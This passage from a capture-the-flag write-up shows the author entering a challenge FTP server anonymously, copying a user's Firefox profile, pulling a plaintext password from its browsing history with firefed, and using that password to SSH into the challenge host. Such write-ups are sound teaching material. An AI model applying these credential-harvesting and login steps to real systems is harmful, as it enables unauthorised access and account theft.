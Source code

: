 At this point my hypothesis was that, since the OpenSSH server version was quite old, maybe some known CVE could be used to exploit it and get access to the internal network. Then we could tap into the FTP server's passive mode session and dump the received data. After _a lot_ of fiddling, out of the blue the FTP server actually started behaving correctly and let us in with anonymous credentials. Maybe it was misconfigured at the start of the CTF and someone fixed it later on? Anyway:

```bash
lftp anonymous:anonymous@misc.utctf.live:8121
```

```text
lftp anonymous@misc.utctf.live:/> ls
drwxr-xr-x    1 0          0                4096 Mar 12 18:53 .
drwxr-xr-x    1 0          0                4096 Mar 12 18:53 ..
drwxr-xr-x    3 0          0                4096 Mar 12 18:53 .mozilla
drwxr-xr-x    2 0          0                4096 Mar 12 18:53 .ssh
drwxr-xr-x    2 0          0                4096 Mar 12 18:53 docs
drwxr-xr-x    2 0          0                4096 Mar 12 18:53 favs
lftp anonymous@misc.utctf.live:/> ls .ssh
drwxr-xr-x    2 0          0                4096 Mar 12 18:53 .
drwxr-xr-x    1 0          0                4096 Mar 12 18:53 ..
-rw-rw-r--    1 0          0                   0 Mar 12 06:45 authorized_keys
-rw-rw-r--    1 0          0                2622 Mar 12 06:45 id_rsa
-rw-rw-r--    1 0          0                 587 Mar 12 06:45 id_rsa.pub
-rw-rw-r--    1 0          0                   0 Mar 12 06:45 known_hosts
```

An SSH key is readable, but since the `authorized_keys` file is empty we can safely assume that it can't be used to log in. Too bad, what else is in here? It seems that `.mozilla/firefox/yu85tipn.bob/` contains Bob's Firefox profile, let's pull it down and inspect it.

```bash
lftp anonymous@misc.utctf.live:/> mirror .mozilla/firefox/yu85tipn.bob
```

Not knowing if the contents of the profile are safe, I chose to run it through [firefed](https://github.com/numirias/firefed) instead. No extensions, no relevant bookmarks, some tracking cookies, no saved logins... but some interesting history! As a bonus, it seems that Bob is interested in either animals or Nintendo emulators 🐬

```bash
firefed -p yu85tipn.bob visits

#...
2021-03-02 18:20:55 http://bobsite.com/login?user=bob&pass=i-l0v3-d0lph1n5
```

Aha! SSL might protect your queries (well, not in this case...), but it can't save you from the dreaded _browser history_.

```bash
sshpass -p "i-l0v3-d0lph1n5" ssh -p 8122 bob@misc.utctf.live

bob@ab405b7be269:~$
```

Let's abuse the server's resources for a moment since we're lazy and don't want to poke around too much:
